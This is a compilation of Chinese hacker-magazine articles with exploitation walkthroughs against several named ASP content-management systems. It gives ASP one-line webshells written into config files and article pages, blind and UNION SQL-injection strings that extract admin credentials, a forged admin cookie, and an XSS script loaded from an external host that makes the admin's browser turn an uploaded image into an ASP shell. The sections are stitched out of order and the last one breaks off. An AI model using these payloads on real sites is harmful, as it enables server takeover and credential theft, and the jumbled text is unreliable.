还等什么呢，现在我们直接破解出 MD5 进后台。结果一看后台，如图 6，是不是有点眼熟？和动易后台是一样的啊！竟然还要输入安全码才能登录，这可难倒我了，安全码并不是记录在数据库里面的，而是写在 inc/config.asp 中，如图 7。

其中 admincode 的内容就是安全码，假如我们得到了管理员的用户名密码，却不知道安全码，自然是进不了后台。这里告诉大家一些技巧，当然成功概率也不高：安全认证码一般和网站的域名有关，我搞的很多站基本上都是这样。如果安全码不变，弄不到安全码又该怎么办呢？难道就这样放弃吗？这个问题困惑了我两个小时。终于，当我看到 sqlin/sqlin_admin.asp 的时候，我笑了！

### 2、防注入程序的利用

先来看看代码：

```asp
sub SaveConfig()
    If ObjInstalled=false Then
        FoundErr=True
        ErrMsg=ErrMsg & "<br><li>你的服务器不支持"&ObjNmae&"！</li>"
        exit sub
    end if
    SqlInSystem=trim(request.Form("SqlInSystem"))
    If request.Form("SqlInOutUrl")<>"" then
        SqlInOutUrl=trim(request.Form("SqlInOutUrl"))
    End if
    If SqlInSystem="" then
        Response.Write("<script language=javascript>alert('系统信息不能为空！');history.go(-1);</script>")
        response.end
    End if
    dim fso,hf
    set fso=Server.CreateObject(ObjNmae)
    set hf=fso.CreateTextFile(Server.mappath(InstallFile),true)
    hf.write "<" & "%" & vbcrlf
    hf.write "Dim SqlInSystem,SqlInOutUrl" & vbcrlf
    hf.write "SqlInSystem=" & chr(34) & SqlInSystem & chr(34) & " '系统信息" & vbcrlf
    hf.write "SqlInOutUrl=" & chr(34) & SqlInOutUrl & chr(34) & " '免维护文件或者目录！" & vbcrlf
    hf.write "%" & ">" '没过滤就直接写入了 sqlin_config.asp，而不是数据库
    hf.close
    set hf=nothing
    set fso=nothing
    Response.Write("<script language=javascript>alert('操作成功！');this.location.href='?';</script>")
    response.end
end sub
```

这个程序最主要的是 Sqlin_admin.asp 不需要任何验证即可访问，于是我们访问 `Sqlin/sqlin_admin.asp?action=set`，如图 8。

从本文可以学到分析睿智管理系统。

最近下载了一套网站管理系统进行分析，这里讨论两个方面：跨站的利用、SQL 注射。还是一句话：重在思路。

#### 一、隐藏的数据库

分析代码经常要用到数据库（我分析的是 Access 版本），习惯性地打开数据库，惊奇地发现只有一个 nodown 表，如图 1。

可是再仔细查看代码，发现不应该只有这张表，于是就想：其他表是不是隐藏起来了？一查看 Access 的帮助说明，在其中发现原来还存在两种属性的数据表，即系统对象和隐藏对象。

> **小知识：**
>
> 由于 Access 默认是不显示系统对象和隐藏对象的，所以如果一个表中存在隐藏对象或者系统对象，那么就无法查到该表了。

简单说下隐藏方法，设计好表后右击表选择“属性”→“隐藏”，刷新下就看不到了，这样就是隐藏对象，默认就是看不到的。

至于系统对象，我们可以修改表的前缀为 usys，这样就可以把表改成一个系统对象。

既然可以隐藏，当然也可以恢复成显示的。按如下操作，依次选择“工具”→“选项”→“视图”，选中“显示”下的“系统对象”复选框或者“隐藏对象”复选框，然后按下“确定”按钮，就可以重新显示所有表了，如图 2。

#### 二、跨站的深入利用

首先看看漏洞文件 /include/PLS.asp，查看代码发现是一个评论显示，在多个文件中被包含了，代码如下：

```asp
<%
IF LePl<>"" then
    Dim Author,Content,mycode
    Author=Trim(Request.Form("Author")) '// 简单的过滤空格
    Content=Trim(Request.Form("Content")) '// 同上
    mycode = trim(request.form("code"))
    if Author="" or Content="" then
        Call Alert ("请填写完整再提交","-1")
    end if
    if mycode<>Session("getcode") then
        Call Alert ("您输入验证码错误","-1")
    end if
    set rs = server.CreateObject("adodb.recordset")
    sql="select * from zhi_rui_E_Pl"
    rs.open sql,conn,1,3
    rs.addnew
    rs("cli")=Request.Form("cli")
    rs("loid")=request.Form("lnid")
    rs("Author")=Author
    rs("Content")=Content
    '……省略部分代码……
%>
```

显然参数没有经过任何过滤，直接写入了数据库，于是跨站产生了。由于数据库是 mdb 格式的，所以插马也没用。进行到这里，我突然想到了前文中的那句话：写入数据库，而这里是写入配置文件。

我们在系统信息那里写入飞鸟游鱼”%><%eval request("zjq")%><%“，然后点击“下一步”，弹出了操作成功的窗口。最后可以在 sqlin_config.asp 中找到我们写入的内容，如图 9。

这样我们用一句话木马连接 sqlin/sqlin_config.asp 即可，如图 10（在这里我又想起了那个利用通用防注入程序拿 shell 的文章，只不过那里是把……进行验证）。

### 3、漏洞修复

由于 cookie 注入较多，防注入程序应该对 cookies 也加以过滤，建议使用 necao 的防注入程序。另外，sqlin/sqlin_admin.asp 应加入语句：`<!--#include file="../admin/Inc/Admin.Asp"-->` 进行验证，这样才能增加网站的安全性。其代码还有些跨站漏洞，这里我就不多说了。我的 ID：Operatuin0。

> **编辑点评：**
>
> 漏洞比较明显，一般入门的同学静下心来就可以分析出一些漏洞了。

黑时想到了是否可以备份数据库，进入后台看到有数据库备份功能，如图 3。

图 3 数据库备份

但是数据库路径和备份文件名都不能修改，有些朋友可能到这里就停止。其实不然，还可以继续，经验告诉我，他是将该输入框写成 hidden 隐藏域了。查看文件 /admin/Admin_Data，相关代码如下：

```html
<td width="81%" bgcolor="#EBF2F9" class="td"><input name="DBpath" type="Hidden" id="DBpath" value="../DataBase/<%=DataName%>" size="40" /></td>
```

看到这行 `type=hidden`，果然猜测得没错，也就是说同样可以备份任意文件了，所以后台拿 shell 就比较简单了（插马备份数据库比较麻烦，要绕过 `</loop><%`，在上期我给大家讲过绕过 `<%/loop<%` 的方法）。

至于跨站如何利用，配合 ajax 提交给后台，管理员查看评论就会自动备份数据库了。但是这里数据库有防下载表，导致利用起来有麻烦。另外，普通用户没有办法上传任何文件，不然可以通过上传一个图片格式的木马，然后通过跨站利用 ajax 自动备份文件。这个跨站在 Access 中无法利用，在 MSSQL 版本中就可以思考了。

作为技术讨论，我还是给出 ajax 代码，假设我可以上传一个图片格式的木马 `upload/2009082150598817.jpg`，现在我通过跨站备份这个文件成 asp 文件。经过分析写出代码如下（保存下面代码为 l4nk0r.js 上传到你网站）：

```javascript
// 判断浏览器类型并定义创建xmlhttp会话
if (window.XMLHttpRequest)
{
    xmlhttp = new XMLHttpRequest();
}
else if (window.ActiveXObject)
{
    try
    {
        xmlhttp = new ActiveXObject('Msxml2.XMLHTTP');
    }
    catch (e)
    {
        try
        {
            xmlhttp = new ActiveXObject('Microsoft.XMLHTTP');
        }
        catch (e)
        {
        }
    }
}

function backup1()
{
    var postStr = 'DBpath=upload/2009082150598817.jpg&bkfolder=../DataBase/bak/&bkDBname=l4nk0r.asp';
    xmlhttp.open('POST','/admin/Admin_data.asp?action=RestoreData&act=Restore',true);
    xmlhttp.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
    xmlhttp.send(postStr);
}

Backup1();
```

然后在你要提交的地方输入 `<script src=http://url/l4nk0r.js></script>`，这样当管理员查看这条评论就会触发了。不过这个漏洞在这个系统中是鸡肋，只是借这个机会和大家分享这个思路，下面进入主角讨论。

#### 三、利用 or 构造 SQL 继续注射

漏洞文件：admin/admin_cklogin.asp，功能是后台登录验证，注入漏洞相关代码如下：

```asp
LoginName=trim(request.form("LoginName"))
LoginPassword=Md5(request.form("LoginPassword"))
mycode = trim(request.form("code"))
set rs = server.createobject("adodb.recordset")

' 很明显的注入漏洞，变量loginname没有经过过滤直接执行sql语句
' 注意loginname是用2个单引号括起来的，要注意前后的闭合问题
sql="select * from zhi_rui_E_manage where AdminName='"&LoginName&"'"
rs.open sql,conn,1,3

if rs.eof then
    response.write "<script language=javascript> alert('管理员名称不正确，请重新输入。');location.replace('Admin_Login.asp');</script>"
    response.end
else
    AdminName=rs("AdminName")
    Password=rs("Password")
    AdminPurview=rs("AdminPurview")
    Working=rs("Working")
    UserName=rs("UserName")
end if

if LoginPassword<>Password then
    response.write "<script language=javascript> alert('管理员密码不正确，请重新输入。');location.replace('Admin_Login.asp');</script>"
    response.end
end if
```

好了，注入原理就不废话了，直接进入利用。查看数据库，管理员表中默认只有一个管理员，而且这个管理员用户名可以修改。如果默认管理员没有修改，可以利用 and 语句来注入，这种注入语句也比较简单，这里不讨论。

考虑到通用性，如果默认管理员用户名被修改了，前台没有一个地方可以找到管理员用户名的痕迹，那么我们就来谈该如何利用 or 来注入（非万能密码，那是不行的）。先说下注入结果，有 3 种：

- 1. 提示“管理员名称不正确，请重新输入”，说明注入语句没正确构造，或者正确构造了但 SQL 不成立；
- 2. 提示“管理员密码不正确，请重新输入”，说明注入语句成立；
- 3. 直接跳到 Admin_Cklogin.asp 显示空白页面，表示你的密码正确。这种情况基本不可能，不然也不用这么费劲了。

# 新洞练练看

分析下这个 SQL 语句：`sql="select * from zhi_rui_E_manage where AdminName='"&LoginName&"'"`

变量名通过 2 个单引号包含，必须注意闭合，只要 SQL 成立就会正确注入。那么我们利用 or 注入如何才能同时满足这些条件呢？没错，让前面的为假，or 后为真，即我们的注入语句最后一个 or 是一个闭合符号且为假，总体逻辑如下：

> 假 or 真 or 假 -> 结果为真，提示密码错误
>
> 假 or 假 or 假 -> 结果为假，提示用户名错误

原理思路明白了，构造如下 SQL 语句：

```sql
1' or (select count(*) from zhi_rui_E_manage)>2 or '1'='2
```

判断管理员是否大于 2 个

```sql
1' or (select asc(mid(adminname,1,1)) from zhi_rui_E_manage where id=1)>96 or '1'='2
```

判断 id=1 的用户名的首个字母的 ASCII 码是否为 a，依次换位判断就可以得到管理员用户名

```sql
1' or (select asc(mid(password,1,1)) from zhi_rui_E_manage where id=1)>96 or '1'='1
```

判断 id=1 的管理员密码的 MD5 散列的首个字符的 ASCII 码是否大于 96，同理依次判断可以得到 32 位 MD5 散列

以上语句如果执行成功则返回如图 4 的提示，如果不成功则返回如图 5 的提示。

如此耐心的手动猜解就会得到管理员名称和密码。至于后台 shell，方法有很多，我提两个比较简单的：

- 1. 网站配置文件插马
- 2. 上传一张图片格式木马，并且利用本地备份得到 webshell。

```asp
在配置文件随便一个信息中填入1" %><%execute(request("cmd"))%><% ，然后直接访问/include/config.asp文件就是一句话木马地址了。
```

当然还有很多好的思路，大家可以提供测试方法，这里不再赘述。文章到此结束，希望您有所得，有任何意见或者技术讨论欢迎交流。我的黑手论坛 ID：L4nk0r

> 编辑点评：睿智管理系统在安全上还是花了点心思，但还是不能有效地防止入侵。

By rabbitsafe/zhangmiao

- 从本文可以学到：
- 1. 中国 seo 优化 html 整站系统漏洞分析
- 2. 漏洞的实际利用过程

大家好，今天给大家带来的是号称中国 seo 优化第一的系统 0day 分析与利用方法。这套系统用的人应该不少，介绍说是非常适合做个人站点，SEO 非常不错，据说一个小时百度就能收录新站，适合做技术类、非主流类、减肥类站点。全站生成 HTML，大大地提高了安全性。

刚好朋友也准备弄个人站点，想让我帮着看看网站安全性，下面就跟我一起开始这次漏洞挖掘的旅途吧！

## 一、漏洞挖掘

漏洞挖掘我比较喜欢用 Dreamweaver，因为它有一个全站查找关键字的功能，对于我们查找某些关键字非常方便。先在 Dreamweaver 里建立一个站点，路径指向网站目录，网站可以正常访问。

先来看看 SQL 注入漏洞，我们都知道，SQL 注入漏洞分为三种情况：整型、字符型、搜索型。不管是哪一种，都是变量过滤出的问题，因此我们要想办法找到变量。

怎样才能找到传递的变量呢？一般情况下变量传递有三种方式，一种是 get 方式提交，要用到 `request.querystring` 方法；一种是 post 方式提交，要用到 `request.form` 方法；一种是 cookie 方式提交，要用到 `request.cookie` 方法。

三种方法都可以传递变量，但是三种方法都有一个关键字 `request`。所以，我们只要搜索它就能找到传递的变量。

打开 Dreamweaver，选择建立的站点，然后按 ctrl+f，选择“整个站点”，搜索选择“源代码”，查找关键字 `request`，点击“查找全部”，如图 1。

从图 1 中我们可以看到，最下方显示出了所有包含搜索关键字的文件。先来看看一个文件，ajax 目录下的 common.asp 文件，传递一个变量 nid，很明显没有过滤，如图 2。

从图 2 中我们可以看到，nid 变量没有过滤就直接放入了 SQL 语句进行查询。再看一下包含的 conn.asp 文件，看有没有防注入代码，在确定没有防注入代码后就可以注入了。

```text
http://localhost/ajax/comment.asp?nid=1%20or%201=1
```

# 新闻练练看



图1　全站搜索



图2　common.asp



图3　穿山甲



图4　联合查询



图5　验证函数



图6　生成静态路径

如果直接猜解，SQL语句出现两个 and 就会报错。

拿出 pangolin 穿山甲工具，添加管理员表名 **so_admin**，列名 **username、password、flag**，成功猜解出管理员账号和口令，如图3。

除了用 pangolin 穿山甲工具进行猜解，还可以用联合查询来爆出管理员账号和口令，提交 URL 地址：`http://localhost/ajax/comment.asp?nid=1%20and%201=2%20union%20select%201,2,3,flag,5,6,7,username,9,password,11%20from%20so_admin`，执行后结果如图4，直接爆出了管理员账号和口令。

存在注入漏洞的还有 **backlink.asp、hits.asp** 文件的 **nid** 变量，利用方法我就不再说了，和上面的类似，不过不用 or 了，因为 SQL 语句里都没有用 and，所以不用 or。

除了以上说的 SQL 注入漏洞，系统还存在 cookie 后台欺骗漏洞。在 Dreamweaver 里查找“cookie”，出现许多相关文件，manage 目录下的 **admin_login.asp** 是后台验证文件，采用的就是 cookie 验证模式。

我们都知道，cookie 是在客户端，用户是可以修改的，因此我们可以在本地构造 cookie 欺骗登录后台。在 include 目录下的 **fun_admin.asp** 文件里有一个 **checkflag** 函数，这个函数就是用来验证是否非法登录后台的，如图5。

这里的 config_cname 和 flag 两个变量分别在 include 目录下的 config.asp 和数据库里，flag 是指权限，flag 值对应的是数据库 **so_admin** 表里的 **flag** 字段值。

```text
cso123=flag=admin%5Fmain%2C+admin%5Fconfig%2C+l%5Ffei886%2C+i%5Ffocus%2C+i%5Flinks%2C+i%5Fcomment%2C+c%5Ffei886%5Fsmall%2C+c%5Ffei886%2C+u%5Fadmin&name=admin&id=
```

进入后台 admin.htm 文件后，发现只是简单用一个 script 做了验证，完全可以绕过。如果以上两种方法都没有搞定后台的，还可以试试以下方法。

首先找一个能关闭 script 的浏览器，我用的是傲游。在内容控制里可以“禁止运行 script”，然后我们直接访问 URL 地址：`http://127.0.0.1/manage/admin.htm`。由于后台其它页面并未设置权限验证，因此我们可以添加一个管理员账号，然后把他的“权限设置”为超级管理员。这里主要加管理员是为了下一步拿 webshell 考虑，拿 webshell 一定要超级管理员才行。

## 二、艰难拿 webshell





后台的小分类管理会按分类名称生成文件夹，看能不能生成 xx.asp 的文件夹，如果能生成这种文件夹就好办了。

在小分类名称处写 test，路径处写 1.asp，其它可以留空，然后点击确认提交，再选择生成静态路径，如图6，路径处已经生成 1.asp 的文件夹了。

接下来我们只要在这个内容小类里生成文件，就可以拿到 webshell 了。

在“信息管理”中选择“产品文章添加”，然后选择刚添加的小类，页面摘要处写“"/>`<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>try{eval(Request.form['#'])+' '}catch(e){}</SCRIPT>`”，是冰狐浪子微型 ASP 后门一句话，再点击生成静态页面，如图7。这一句话前面的“"/>”是为了闭合页面摘要里 HTML 符号。

现在我们添加文章已经成功，来访问一下 1.asp 目录新添加的文章，URL 地址是：`http://1.1.1.4/article/news/1.asp/261/index.html`，用冰狐浪子微型 ASP 后门客户端进行连接，如图8。

这样我们就已经拿到 webshell 了。由于这个文件夹漏洞只对 Windows 2003 系统有效，所以在拿 webshell 时，我就在自己的 Windows 2003 虚拟机环境下测试，于是地址也变成了 1.1.1.4。

## 三、总结

总体来说，这个系统的安全性较差，管理员在很多方面都没有考虑到。看到用这个系统的人很多，希望大家进行升级处理。最好首先改掉后台目录，设置文章目录下不允许执行脚本权限。如果文章中有什么不明白的地方，可以到《黑客手册》论坛去找我，我的论坛 ID 是 rabbitsafe。

> 编辑点评：中国 SEO 优化 HTML 整站系统的漏洞还是比较明显的，作者进行了详细的说明和演示，其中有不少实用的技巧，对大家拓展自己的思路都有不错的帮助。

# 金玉其外，败絮其中

## 之细数某漂亮企业 CMS 漏洞



图　小楼听雨

从本文可以学到：漂亮企业 CMS 漏洞探析

看“黑手”一段时间后，感觉挖掘一些简单的脚本漏洞还是比较容易的。虽说一些低级漏洞俯拾即是，可是这些 CMS 往往也不太流行，因此一直没怎么分析过代码。刚好前段时间答应帮朋友建个企业站，才得以有机会小试牛刀，检验下前段时间的学习成果。CMS 的名字叫作漂亮企业网站，现将分析过程拿来和众小菜分享一下。

### 一、暴库漏洞

直奔 inc 文件夹下打开 conn.asp，代码如下：

```asp
<%
dim conn
dim connstr
dim db
db="database/vote.mdb"  ' 数据库文件的位置
Set conn = Server.CreateObject("ADODB.Connection")
connstr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(db)
conn.Open connstr
sub CloseConn()
    conn.close
    set conn=nothing
end sub
%>
```

心中窃喜，果然没有容错语句，存在暴库漏洞。访问 conn.asp 成功爆出数据库路径，如图1。

用迅雷下载回来一看顿时傻眼了，这个是投票系统的数据库，根本没有管理员用户名和密码。继续寻找，原来数据库连接文件是 open.asp，这个不存在暴库漏洞，看来下载数据库这条路是走不通了，只好作罢。

### 二、注入漏洞

